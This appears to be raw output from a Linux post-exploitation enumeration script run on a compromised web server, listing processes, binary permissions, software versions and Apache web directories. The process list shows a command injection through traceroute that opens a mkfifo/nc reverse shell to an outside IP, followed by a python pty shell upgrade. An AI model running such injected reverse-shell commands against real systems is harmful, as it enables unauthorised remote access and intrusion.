root       144  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_6]
root       145  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_7]
root       146  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_7]
root       147  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_8]
root       148  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_8]
root       149  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_9]
root       150  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_9]
root       151  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kpsmoused]
root       152  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_10]
root       153  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_10]
root       154  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_11]
root       155  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_11]
root       156  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_12]
root       159  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_12]
root       162  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_13]
root       163  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_13]
root       164  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_14]
root       165  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_14]
root       166  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_15]
root       167  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_15]
root       168  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_16]
root       169  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_16]
root       170  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_17]
root       171  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_17]
root       172  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_18]
root       173  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_18]
root       174  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_19]
root       175  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_19]
root       176  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_20]
root       177  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_20]
root       178  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_21]
root       179  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_21]
root       180  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_22]
root       181  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_22]
root       182  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_23]
root       183  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_23]
root       184  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_24]
root       185  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_24]
root       186  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_25]
root       187  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_25]
root       188  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_26]
root       189  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_26]
root       190  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_27]
root       191  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_27]
root       192  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_28]
root       193  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_28]
root       194  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_29]
root       195  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_29]
root       196  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_30]
root       197  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_30]
root       198  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_31]
root       199  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_31]
root       200  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_32]
root       201  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_32]
root       272  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root       278  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kworker/1:1H]
root       340  0.0  0.0      0     0 ?        S<   Jan25   0:00 [raid5wq]
root       366  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kdmflush]
root       367  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root       377  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kdmflush]
root       378  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root       387  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root       421  0.0  0.0      0     0 ?        S    Jan25   0:01 [jbd2/dm-0-8]
root       422  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ext4-rsv-conver]
root       470  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kworker/0:1H]
root       479  0.0  0.0      0     0 ?        S<   Jan25   0:00 [iscsi_eh]
root       482  0.0  0.3  28508  3088 ?        Ss   Jan25   0:02 /lib/systemd/systemd-journald
root       493  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ib_addr]
root       497  0.0  0.0      0     0 ?        S    Jan25   0:00 [kauditd]
root       514  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ib_mcast]
root       515  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ib_nl_sa_wq]
root       517  0.0  0.3 102968  3664 ?        Ss   Jan25   0:00 /sbin/lvmetad -f
root       526  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ib_cm]
root       527  0.0  0.0      0     0 ?        S<   Jan25   0:00 [iw_cm_wq]
root       529  0.0  0.0      0     0 ?        S<   Jan25   0:00 [rdma_cm]
root       543  0.0  0.3  44664  3928 ?        Ss   Jan25   0:00 /lib/systemd/systemd-udevd
root       871  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ext4-rsv-conver]
systemd+   922  0.0  0.2 100324  2452 ?        Ssl  Jan25   0:07 /lib/systemd/systemd-timesyncd
root      1044  0.0  0.1   4400  1328 ?        Ss   Jan25   0:00 /usr/sbin/acpid
root      1049  0.0  1.9 209448 20160 ?        Ssl  Jan25   0:00 /usr/lib/snapd/snapd
root      1056  0.0  0.3 457336  4052 ?        Ssl  Jan25   0:00 /usr/bin/lxcfs /var/lib/lxcfs/
root      1059  0.0  0.7 275860  7824 ?        Ssl  Jan25   0:02 /usr/lib/accountsservice/accounts-daemon
daemon    1061  0.0  0.2  26044  2084 ?        Ss   Jan25   0:00 /usr/sbin/atd -f
syslog    1064  0.0  0.3 256396  3052 ?        Ssl  Jan25   0:00 /usr/sbin/rsyslogd -n
root      1072  0.0  0.2  20100  2684 ?        Ss   Jan25   0:00 /lib/systemd/systemd-logind
root      1075  0.0  0.2  29008  2432 ?        Ss   Jan25   0:00 /usr/sbin/cron -f
root      1076  0.0  0.9 186108  9924 ?        Ssl  Jan25   1:41 /usr/bin/vmtoolsd
message+  1088  0.0  0.3  42904  3608 ?        Ss   Jan25   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
root      1174  0.0  0.5 277180  5752 ?        Ssl  Jan25   0:00 /usr/lib/policykit-1/polkitd --no-debug
root      1203  0.0  0.0  13376   172 ?        Ss   Jan25   0:00 /sbin/mdadm --monitor --pid-file /run/mdadm/monitor.pid --daemonise --scan --syslog
root      1237  0.0  0.5  65520  5768 ?        Ss   Jan25   0:00 /usr/sbin/sshd -D
bind      1240  0.0  1.7 281588 17376 ?        Ssl  Jan25   0:00 /usr/sbin/named -f -u bind -4
root      1257  0.0  0.0   5224   156 ?        Ss   Jan25   0:03 /sbin/iscsid
root      1258  0.0  0.3   5724  3512 ?        S<Ls Jan25   0:19 /sbin/iscsid
mysql     1271  0.0 15.9 1238472 162168 ?      Ssl  Jan25   0:49 /usr/sbin/mysqld
root      1331  0.0  0.1  15940  1508 tty1     Ss+  Jan25   0:00 /sbin/agetty --noclear tty1 linux
root      1339  0.0  0.2  19620  2188 ?        Ss   Jan25   0:04 /usr/sbin/irqbalance --pid=/var/run/irqbalance.pid
root      1384  0.0  2.9 325536 29484 ?        Ss   Jan25   0:07 /usr/sbin/apache2 -k start
root      3802  0.0  0.0      0     0 ?        S    12:07   0:00 [kworker/1:1]
root      6685  0.0  0.0      0     0 ?        S    Jan26   0:02 [kworker/0:0]
root      9231  0.0  0.0      0     0 ?        S    19:10   0:00 [kworker/u4:0]
www-data  9291  0.0  1.3 325988 13224 ?        S    19:13   0:00 /usr/sbin/apache2 -k start
root      9450  0.0  0.0      0     0 ?        S    19:21   0:00 [kworker/u4:2]
www-data  9463  0.0  0.0   4508   800 ?        S    19:22   0:00 sh -c traceroute rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 8081 >/tmp/f
www-data  9465  0.0  0.0   4536   704 ?        S    19:22   0:00 cat /tmp/f
www-data  9466  0.0  0.0   4508   704 ?        S    19:22   0:00 /bin/sh -i
www-data  9467  0.0  0.1  11304  1740 ?        S    19:22   0:00 nc 10.10.14.8 8081
www-data  9492  0.0  0.6  32172  6784 ?        S    19:23   0:00 python -c import pty; pty.spawn("/bin/bash")
www-data  9493  0.0  0.3  18216  3160 pts/0    Ss   19:23   0:00 /bin/bash
www-data  9603  0.0  0.8 325608  8888 ?        S    19:29   0:00 /usr/sbin/apache2 -k start
www-data  9605  0.0  0.8 325608  8888 ?        S    19:29   0:00 /usr/sbin/apache2 -k start
www-data  9626  0.0  0.8 325608  8888 ?        S    19:30   0:00 /usr/sbin/apache2 -k start
www-data  9644  0.0  0.8 325608  8888 ?        S    19:32   0:00 /usr/sbin/apache2 -k start
www-data  9651  0.0  0.8 325608  8888 ?        S    19:32   0:00 /usr/sbin/apache2 -k start
www-data  9655  0.0  0.8 325608  8888 ?        S    19:32   0:00 /usr/sbin/apache2 -k start
www-data  9656  0.0  0.8 325608  8888 ?        S    19:32   0:00 /usr/sbin/apache2 -k start
www-data  9671  0.0  0.8 325608  8888 ?        S    19:33   0:00 /usr/sbin/apache2 -k start
www-data  9673  0.0  0.8 325608  8888 ?        S    19:33   0:00 /usr/sbin/apache2 -k start
www-data  9675  0.0  0.8 325608  8888 ?        S    19:33   0:00 /usr/sbin/apache2 -k start
www-data  9774  0.0  0.3  18896  3644 pts/0    S+   19:39   0:00 bash
www-data  9775  0.0  0.3  18944  3208 pts/0    S+   19:39   0:00 bash
www-data  9776  0.0  0.0   4384   668 pts/0    S+   19:39   0:00 tee -a
www-data  9949  0.0  0.2  18928  2568 pts/0    S+   19:40   0:00 bash
www-data  9950  0.0  0.2  34424  2888 pts/0    R+   19:40   0:00 ps aux
root     32477  0.0  0.0      0     0 ?        S    06:25   0:00 [kworker/1:2]
root     32511  0.0  0.0      0     0 ?        S    06:25   0:01 [kworker/0:2]


Process binaries & associated permissions (from above list):
-rwxr-xr-x 1 root root  1037528 Jun 24  2016 /bin/bash
lrwxrwxrwx 1 root root        4 Mar 22  2017 /bin/sh -> dash
-rwxr-xr-x 1 root root   326224 Jan 19  2017 /lib/systemd/systemd-journald
-rwxr-xr-x 1 root root   618520 Jan 19  2017 /lib/systemd/systemd-logind
-rwxr-xr-x 1 root root   141904 Jan 19  2017 /lib/systemd/systemd-timesyncd
-rwxr-xr-x 1 root root   453240 Jan 19  2017 /lib/systemd/systemd-udevd
-rwxr-xr-x 1 root root    44104 Dec 16  2016 /sbin/agetty
lrwxrwxrwx 1 root root       20 Mar 22  2017 /sbin/init -> /lib/systemd/systemd
-rwxr-xr-x 1 root root   783984 Dec  9  2016 /sbin/iscsid
-rwxr-xr-x 1 root root    51336 Apr 16  2016 /sbin/lvmetad
-rwxr-xr-x 1 root root   513216 Feb 20  2017 /sbin/mdadm
-rwxr-xr-x 1 root root   224208 Jan 12  2017 /usr/bin/dbus-daemon
-rwxr-xr-x 1 root root    18504 Feb  3  2017 /usr/bin/lxcfs
-rwxr-xr-x 1 root root    44528 Feb  9  2017 /usr/bin/vmtoolsd
-rwxr-xr-x 1 root root   164928 Nov  3  2016 /usr/lib/accountsservice/accounts-daemon
-rwxr-xr-x 1 root root    15048 Jan 18  2016 /usr/lib/policykit-1/polkitd
-rwxr-xr-x 1 root root 18977392 Feb 24  2017 /usr/lib/snapd/snapd
-rwxr-xr-x 1 root root    48112 Apr  9  2016 /usr/sbin/acpid
-rwxr-xr-x 1 root root   646080 Jul 15  2016 /usr/sbin/apache2
-rwxr-xr-x 1 root root    26632 Jan 15  2016 /usr/sbin/atd
-rwxr-xr-x 1 root root    44472 Apr  6  2016 /usr/sbin/cron
-rwxr-xr-x 1 root root    48440 Apr 11  2016 /usr/sbin/irqbalance
-rwxr-xr-x 1 root root 24741672 Feb  6  2017 /usr/sbin/mysqld
-rwxr-xr-x 1 root root   639672 Feb 15  2017 /usr/sbin/named
-rwxr-xr-x 1 root root   599328 Apr  5  2016 /usr/sbin/rsyslogd
-rwxr-xr-x 1 root root   799216 Aug 11  2016 /usr/sbin/sshd


/etc/init.d/ binary permissions:
total 328
drwxr-xr-x  2 root root 4096 Apr  9  2017 .
drwxr-xr-x 95 root root 4096 Apr  9  2017 ..
-rw-r--r--  1 root root 1264 Apr  9  2017 .depend.boot
-rw-r--r--  1 root root 1028 Apr  9  2017 .depend.start
-rw-r--r--  1 root root 1260 Apr  9  2017 .depend.stop
-rw-r--r--  1 root root 2427 Jan 19  2016 README
-rwxr-xr-x  1 root root 2243 Feb 10  2016 acpid
-rwxr-xr-x  1 root root 2210 Apr  6  2016 apache-htcacheclean
-rwxr-xr-x  1 root root 8087 Apr  6  2016 apache2
-rwxr-xr-x  1 root root 6223 Mar  4  2017 apparmor
-rwxr-xr-x  1 root root 2799 Mar 31  2016 apport
-rwxr-xr-x  1 root root 1071 Dec  6  2015 atd
-rwxr-xr-x  1 root root 3431 Nov 15  2016 bind9
-rwxr-xr-x  1 root root 1275 Jan 19  2016 bootmisc.sh
-rwxr-xr-x  1 root root 3807 Jan 19  2016 checkfs.sh
-rwxr-xr-x  1 root root 1098 Jan 19  2016 checkroot-bootclean.sh
-rwxr-xr-x  1 root root 9353 Jan 19  2016 checkroot.sh
-rwxr-xr-x  1 root root 1343 Apr  4  2016 console-setup
-rwxr-xr-x  1 root root 3049 Apr  6  2016 cron
-rwxr-xr-x  1 root root  937 Mar 28  2015 cryptdisks
-rwxr-xr-x  1 root root  896 Mar 28  2015 cryptdisks-early
-rwxr-xr-x  1 root root 2813 Dec  2  2015 dbus
-rwxr-xr-x  1 root root 1105 Mar 15  2016 grub-common
-rwxr-xr-x  1 root root 1336 Jan 19  2016 halt
-rwxr-xr-x  1 root root 1423 Jan 19  2016 hostname.sh
-rwxr-xr-x  1 root root 3809 Mar 12  2016 hwclock.sh
-rwxr-xr-x  1 root root 2372 Apr 11  2016 irqbalance
-rwxr-xr-x  1 root root 1503 Mar 29  2016 iscsid
-rwxr-xr-x  1 root root 1804 Apr  4  2016 keyboard-setup
-rwxr-xr-x  1 root root 1300 Jan 19  2016 killprocs
-rwxr-xr-x  1 root root 2087 Dec 21  2015 kmod
-rwxr-xr-x  1 root root  695 Oct 30  2015 lvm2
-rwxr-xr-x  1 root root  571 Oct 30  2015 lvm2-lvmetad
-rwxr-xr-x  1 root root  586 Oct 30  2015 lvm2-lvmpolld
-rwxr-xr-x  1 root root 2300 Feb  3  2017 lxcfs
-rwxr-xr-x  1 root root 2541 Feb  3  2017 lxd
-rwxr-xr-x  1 root root 2611 Apr 11  2016 mdadm
-rwxr-xr-x  1 root root 1199 Jul 16  2014 mdadm-waitidle
-rwxr-xr-x  1 root root  703 Jan 19  2016 mountall-bootclean.sh
-rwxr-xr-x  1 root root 2301 Jan 19  2016 mountall.sh
-rwxr-xr-x  1 root root 1461 Jan 19  2016 mountdevsubfs.sh
-rwxr-xr-x  1 root root 1564 Jan 19  2016 mountkernfs.sh
-rwxr-xr-x  1 root root  711 Jan 19  2016 mountnfs-bootclean.sh
-rwxr-xr-x  1 root root 2456 Jan 19  2016 mountnfs.sh
-rwxr-xr-x  1 root root 5607 Jul 11  2016 mysql
-rwxr-xr-x  1 root root 4771 Jul 20  2015 networking
-rwxr-xr-x  1 root root 1581 Oct 16  2015 ondemand
-rwxr-xr-x  1 root root 2503 Mar 29  2016 open-iscsi
-rwxr-xr-x  1 root root 1578 Sep 18  2016 open-vm-tools
-rwxr-xr-x  1 root root 1366 Nov 15  2015 plymouth
-rwxr-xr-x  1 root root  752 Nov 15  2015 plymouth-log
-rwxr-xr-x  1 root root 1192 Sep  6  2015 procps
-rwxr-xr-x  1 root root 6366 Jan 19  2016 rc
-rwxr-xr-x  1 root root  820 Jan 19  2016 rc.local
-rwxr-xr-x  1 root root  117 Jan 19  2016 rcS
-rwxr-xr-x  1 root root  661 Jan 19  2016 reboot
-rwxr-xr-x  1 root root 4149 Nov 23  2015 resolvconf
-rwxr-xr-x  1 root root 4355 Jul 10  2014 rsync
-rwxr-xr-x  1 root root 2796 Feb  3  2016 rsyslog
-rwxr-xr-x  1 root root 1226 Jun  9  2015 screen-cleanup
-rwxr-xr-x  1 root root 3927 Jan 19  2016 sendsigs
-rwxr-xr-x  1 root root  597 Jan 19  2016 single
-rw-r--r--  1 root root 1087 Jan 19  2016 skeleton
-rwxr-xr-x  1 root root 4077 Apr 28  2016 ssh
-rwxr-xr-x  1 root root 6087 Apr 12  2016 udev
-rwxr-xr-x  1 root root 2049 Aug  7  2014 ufw
-rwxr-xr-x  1 root root 2737 Jan 19  2016 umountfs
-rwxr-xr-x  1 root root 2202 Jan 19  2016 umountnfs.sh
-rwxr-xr-x  1 root root 1879 Jan 19  2016 umountroot
-rwxr-xr-x  1 root root 1379 Feb 19  2016 unattended-upgrades
-rwxr-xr-x  1 root root 3111 Jan 19  2016 urandom
-rwxr-xr-x  1 root root 1306 Dec 16  2016 uuidd


### SOFTWARE #############################################
Sudo version:
Sudo version 1.8.16


MYSQL version:
mysql  Ver 14.14 Distrib 5.7.17, for Linux (x86_64) using  EditLine wrapper


Apache version:
Server version: Apache/2.4.18 (Ubuntu)
Server built:   2016-07-14T12:32:26


Apache user configuration:
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data


Installed Apache modules:
Loaded Modules:
 core_module (static)
 so_module (static)
 watchdog_module (static)
 http_module (static)
 log_config_module (static)
 logio_module (static)
 version_module (static)
 unixd_module (static)
 access_compat_module (shared)
 alias_module (shared)
 auth_basic_module (shared)
 authn_core_module (shared)
 authn_file_module (shared)
 authz_core_module (shared)
 authz_host_module (shared)
 authz_user_module (shared)
 autoindex_module (shared)
 deflate_module (shared)
 dir_module (shared)
 env_module (shared)
 filter_module (shared)
 mime_module (shared)
 mpm_prefork_module (shared)
 negotiation_module (shared)
 php7_module (shared)
 setenvif_module (shared)
 status_module (shared)


Anything in the Apache home dirs?:
/var/www/:
total 20K
drwxr-xr-x  5 root     root     4.0K Apr  9  2017 .
drwxr-xr-x 14 root     root     4.0K Mar 22  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Jul 27  2017 admin
drwxr-xr-x  2 www-data www-data 4.0K Jul 27  2017 html
drwxr-xr-x 13 www-data www-data 4.0K Apr  9  2017 laravel

/var/www/admin:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Jul 27  2017 .
drwxr-xr-x 5 root     root     4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.0K Apr  9  2017 .welcome.php.swp
-rw-r--r-- 1 www-data www-data  237 Apr  9  2017 config.php
-rw-r--r-- 1 www-data www-data 3.5K Jul 27  2017 index.php
-rw-r--r-- 1 www-data www-data  102 Apr  9  2017 logout.php
-rw-r--r-- 1 www-data www-data  383 Apr  9  2017 session.php
-rw-r--r-- 1 www-data www-data  782 Apr  9  2017 welcome.php

/var/www/html:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Jul 27  2017 .
drwxr-xr-x 5 root     root     4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  13K Jul 27  2017 index.html

/var/www/laravel:
total 2.0M
drwxr-xr-x 13 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x  5 root     root     4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  572 Apr  9  2017 .env
drwxr-xr-x  8 www-data www-data 4.0K Apr  9  2017 .git
-rw-r--r--  1 www-data www-data  111 Apr  9  2017 .gitattributes
-rw-r--r--  1 www-data www-data  117 Apr  9  2017 .gitignore
-rw-r--r--  1 www-data www-data  727 Apr  9  2017 CHANGELOG.md
drwxr-xr-x  6 www-data www-data 4.0K Apr  9  2017 app
-rwxr-xr-x  1 www-data www-data 1.7K Apr  9  2017 artisan
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 bootstrap
-rw-r--r--  1 www-data www-data 1.3K Apr  9  2017 composer.json
-rw-r--r--  1 www-data www-data 119K Apr  9  2017 composer.lock
-rwxr-xr-x  1 www-data www-data 1.8M Apr  9  2017 composer.phar
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 config
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 database
-rw-r--r--  1 www-data www-data 1.1K Apr  9  2017 package.json
-rw-r--r--  1 www-data www-data 1.1K Apr  9  2017 phpunit.xml
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 public
-rw-r--r--  1 www-data www-data 3.4K Apr  9  2017 readme.md
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 resources
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 routes
-rw-r--r--  1 www-data www-data  563 Apr  9  2017 server.php
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 storage
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 tests
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 vendor
-rw-r--r--  1 www-data www-data  555 Apr  9  2017 webpack.mix.js

/var/www/laravel/.git:
total 64K
drwxr-xr-x  8 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 13 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   23 Apr  9  2017 HEAD
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 branches
-rw-r--r--  1 www-data www-data  263 Apr  9  2017 config
-rw-r--r--  1 www-data www-data   73 Apr  9  2017 description
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 hooks
-rw-r--r--  1 www-data www-data 8.7K Apr  9  2017 index
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 info
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 logs
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 objects
-rw-r--r--  1 www-data www-data 4.7K Apr  9  2017 packed-refs
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 refs

/var/www/laravel/.git/branches:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..

/var/www/laravel/.git/hooks:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
-rwxr-xr-x 1 www-data www-data  478 Apr  9  2017 applypatch-msg.sample
-rwxr-xr-x 1 www-data www-data  896 Apr  9  2017 commit-msg.sample
-rwxr-xr-x 1 www-data www-data  189 Apr  9  2017 post-update.sample
-rwxr-xr-x 1 www-data www-data  424 Apr  9  2017 pre-applypatch.sample
-rwxr-xr-x 1 www-data www-data 1.7K Apr  9  2017 pre-commit.sample
-rwxr-xr-x 1 www-data www-data 1.4K Apr  9  2017 pre-push.sample
-rwxr-xr-x 1 www-data www-data 4.8K Apr  9  2017 pre-rebase.sample
-rwxr-xr-x 1 www-data www-data 1.3K Apr  9  2017 prepare-commit-msg.sample
-rwxr-xr-x 1 www-data www-data 3.6K Apr  9  2017 update.sample

/var/www/laravel/.git/info:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  240 Apr  9  2017 exclude

/var/www/laravel/.git/logs:
total 16K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  183 Apr  9  2017 HEAD
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 refs

/var/www/laravel/.git/logs/refs:
total 16K
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 heads
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 remotes

/var/www/laravel/.git/logs/refs/heads:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  183 Apr  9  2017 master

/var/www/laravel/.git/logs/refs/remotes:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 origin

/var/www/laravel/.git/logs/refs/remotes/origin:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  183 Apr  9  2017 HEAD

/var/www/laravel/.git/objects:
total 16K
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 info
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 pack

/var/www/laravel/.git/objects/info:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..

/var/www/laravel/.git/objects/pack:
total 9.0M
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-r--r--r-- 1 www-data www-data 772K Apr  9  2017 pack-74fa3b6d97d942c652cea224987f7c73a85e058c.idx
-r--r--r-- 1 www-data www-data 8.2M Apr  9  2017 pack-74fa3b6d97d942c652cea224987f7c73a85e058c.pack

/var/www/laravel/.git/refs:
total 20K
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 heads
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 remotes
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 tags

/var/www/laravel/.git/refs/heads:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   41 Apr  9  2017 master

/var/www/laravel/.git/refs/remotes:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 origin

/var/www/laravel/.git/refs/remotes/origin:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   32 Apr  9  2017 HEAD

/var/www/laravel/.git/refs/tags:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..

/var/www/laravel/app:
total 28K
drwxr-xr-x  6 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 13 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 Console
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 Exceptions
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 Http
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 Providers
-rw-r--r--  1 www-data www-data  511 Apr  9  2017 User.php

/var/www/laravel/app/Console:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  819 Apr  9  2017 Kernel.php

/var/www/laravel/app/Exceptions:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.9K Apr  9  2017 Handler.php

/var/www/laravel/app/Http:
total 20K
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 Controllers
-rw-r--r-- 1 www-data www-data 2.0K Apr  9  2017 Kernel.php
